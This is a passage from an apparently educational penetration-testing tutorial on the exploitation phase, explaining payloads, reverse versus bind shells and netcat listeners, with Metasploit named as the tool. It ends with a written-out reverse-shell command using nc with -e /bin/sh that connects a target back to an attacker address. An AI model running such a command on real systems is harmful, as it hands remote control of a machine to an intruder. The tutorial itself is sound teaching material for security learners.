 ## **3 - Exploitation**

**Goal -** Delivering a payload

**Tools -** Metasploit

In this step we have enumerated a target, we have found an open port with a vulnerable service and we're hoping to exploit it. That means our goal is executing commands on the target. So how do we get command execution or as we sometimes say, deliver a payload?

### **What is a payload?**

Before we move on it's important to know what a payload is. The payload is the actual information in a transmission, in our case it's a script that will provide us with some sort of reverse shell on the target.

Your payload is quite simply whatever code you decide to execute on the machine. It can be something simple, or it can be advanced. However, as we are hackers we want to take full advantage of the fact that we can execute commands on the target. So what we want to do is: **make the target machine connect back to our machine to get what we call a 'shell'.** Why do we want to do this? Because, when we have command execution on the remote box we can make it execute commands to make it connect back to us. However, the other way won't work because its not configured to accept a connection to establish a shell. Therefore in the illustration below, what's called a "normal shell" isn't possible, but since we control the 'client' part which is our Kali box we can open a port and make the server/target machine connect back. This way, we establish a connection where we can interact with the target.

To read more about payloads, visit:

[https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work)

### **So, what's a reverse shell?**

A reverse shell is the target host connecting back to our host! It sounds weird, but that's what we use the exploit for, we get past the defenses of the target host to deliver our payload - malicious code that leverage tools already on the system to connect back to our Kali Linux box. So how do we know that the target host is connecting back? How do we "catch" our shell?

![Reverse shell vs bind shell \(normal shell\)](https://lh4.googleusercontent.com/_u5bfPsl_tFbfHvQztajcQg9Xej7SOu7y3Cu3RTBJ5RGDzZAUQdt474UFHeN4_MOmbiO1iiPbDiHnU_NmuZIaHhwjFr-HLVic23LhqiaXElqS8oNh_vDkRw3cwOkcgmNYUn1-n1BiWg)

### **The art of listening**

An important concept in the world of hacking is listeners. Whenever we execute a payload, either through the Metasploit Framework \(MSF\) or manually, we need to listen for our shell to call back. We can do this in several ways, and perhaps the most common and simple way is using a tool called `netcat`, or `nc` for short. `nc` is a program used for reading from and writing to network connections, often called sockets. In the picture below we illustrate this. Let's imagine that we have successfully  delivered a payload to the target that runs the following command:

```text
nc 10.10.14.18 4444 -e /bin/sh
```
